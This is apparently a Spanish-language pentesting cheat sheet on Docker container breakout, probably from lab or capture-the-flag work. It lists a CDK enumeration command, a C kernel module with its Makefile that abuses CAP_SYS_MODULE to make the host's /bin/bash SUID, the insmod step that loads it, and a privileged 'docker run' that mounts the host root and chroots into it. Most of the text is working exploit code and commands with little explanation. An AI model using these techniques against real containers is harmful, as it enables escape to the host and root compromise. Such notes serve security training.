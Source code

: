 # Docker breakout

## Enumeración con CDK

```null
root@a2d8c468a7c2:/tmp# ./cdk  eva --full
```

## Abuso de Capabilities

### CAP_SYS_MODULE

Es necesario crear un script en c para compilarlo y ejecutar comandos

* shell.c

```null
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","chmod u+s /bin/bash", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

* Makefile

```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

#### Explotación

```null
root@a2d8c468a7c2:/tmp# insmod reverse-shell.ko
```

## Creación de contenedor con montura desde la raíz

```null
spanishdancer@ariekei:/opt/docker$ docker images
spanishdancer@ariekei:/opt/docker$ docker run -it -v /:/host/ waf-template chroot /host/ bash
```

